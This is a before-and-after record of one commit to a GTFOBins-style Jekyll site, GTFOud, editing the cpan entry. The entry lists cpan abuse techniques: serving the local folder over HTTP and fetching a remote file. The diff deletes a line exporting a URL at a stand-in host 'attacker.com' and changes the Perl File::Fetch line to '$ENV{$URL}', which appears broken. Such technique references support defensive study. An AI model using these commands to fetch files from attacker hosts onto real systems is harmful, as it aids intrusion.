

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/cpan.md, in a window 1280 px wide, cut to the strip 339-827 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update cpan.md

```diff
--- a/_gtfoud/cpan.md
+++ b/_gtfoud/cpan.md
@@ -1,6 +1,6 @@
 ---
 functions:
-  file-upload:
+  server:
     - description: Serve files in the local folder running an HTTP server on port 8080. Install the dependency via `cpan HTTP::Server::Simple`.
       code: |
         cpan
@@ -8,7 +8,6 @@ functions:
   file-download:
     - description: Fetch a remote file via an HTTP GET request and store it in `PWD`.
       code: |
-        export URL=http://attacker.com/file_to_get
         cpan
-        ! use File::Fetch; my $file = (File::Fetch->new(uri => "$ENV{URL}"))->fetch();
+        ! use File::Fetch; my $file = (File::Fetch->new(uri => "$ENV{$URL}"))->fetch();
 ---
```
